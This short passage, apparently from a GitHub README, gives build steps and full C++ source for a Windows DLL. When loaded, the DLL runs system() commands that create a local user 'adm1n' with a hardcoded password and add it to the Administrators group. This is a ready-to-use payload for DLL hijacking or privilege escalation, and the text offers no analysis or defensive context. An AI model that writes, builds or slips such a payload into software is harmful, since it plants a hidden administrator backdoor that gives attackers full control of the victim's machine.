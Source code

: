 
You can create your own dll with visual studio. Just create a dll project for c++ and copy code below. Select release and x64 then build it

	#include "pch.h"
	#include <stdlib.h>

	BOOL APIENTRY DllMain(HMODULE hModule,
		DWORD  ul_reason_for_call,
		LPVOID lpReserved
	)
	{
		switch (ul_reason_for_call)
		{
		case DLL_PROCESS_ATTACH:
			system("cmd.exe /c net user adm1n Password123. /add");
			system("cmd.exe /c net localgroup administrators adm1n /add");
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			break;
		}
		return TRUE;
	}